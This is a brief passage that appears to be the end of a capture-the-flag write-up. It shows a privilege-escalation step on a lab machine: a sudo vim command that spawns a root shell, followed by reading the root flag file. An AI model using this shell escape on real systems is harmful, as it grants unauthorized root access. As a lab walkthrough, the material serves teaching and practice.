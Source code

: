   * search about use vim in privesc
  * `sudo vim -c ' : ! /bin/sh ' /usr/bin/vim`
  * `cat /root/root.txt`
  
<img src="/img/injector/roo.PNG" alt="Getting-gz" width="800" height="100">

* We got the final flag and complete task






